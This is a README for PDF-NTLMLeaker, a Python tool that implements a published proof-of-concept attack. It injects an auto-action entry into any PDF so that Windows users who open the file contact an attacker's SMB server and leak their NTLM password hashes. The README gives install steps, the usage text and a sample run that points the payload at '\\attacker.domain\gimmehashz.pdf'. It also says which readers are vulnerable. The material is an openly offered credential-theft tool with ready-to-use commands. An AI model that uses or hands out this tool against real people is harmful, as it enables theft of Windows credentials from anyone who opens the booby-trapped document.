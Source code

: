 # PDF-NTLMLeaker v0.1

## Description


This script implements the Proof of Concept attack from the Checkpoint research ["NTLM Credentials Theft via PDF Files"](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

Basically, this Python script will inject in any given pdf a /AA entry that when parsed by the PDF reader will request a remote file in a server controlled by the attacker leaking the NTLM hash of any user that open that pdf document in a windows host. 

During my tests with the script I verify that this attack works nicely in the Adobe Acrobat Reader. But my tests failed in browser PDF readers (Edge, Firefox and Chrome) and also in the Foxit Reader 9.1.


# Install

Install required libraries with:

```
pip install pdfrw
```

# Example

```
$ python3 PDF-NTLMLeaker.py -h

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

usage: PDF-NTLMLeaker.py [-h] [-o OUTPUT] input path

positional arguments:
  input                       PDF file to be used as input.
  path                        UNC path of malicious SMB Server/Responder host
                              (ex: \\malicious.com\dumb_file.pdf)

optional arguments:
  -h, --help                  show this help message and exit
  -o OUTPUT, --output OUTPUT  Name of the output file. (default:
                              modified_file.pdf)

This script will inject a malicious metadata in a PDF file to force it leak
the NTLM hash of any user that open that file in a Windows host.

```


```

$ python3 PDF-NTLMLeaker.py sample.pdf '\\attacker.domain\gimmehashz.pdf'

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

[*] Reading PDF file: sample.pdf
[*] Injecting the payload in the PDF file...
[*] Saving modified PDF as: modified_file.pdf
[*] Done!

```


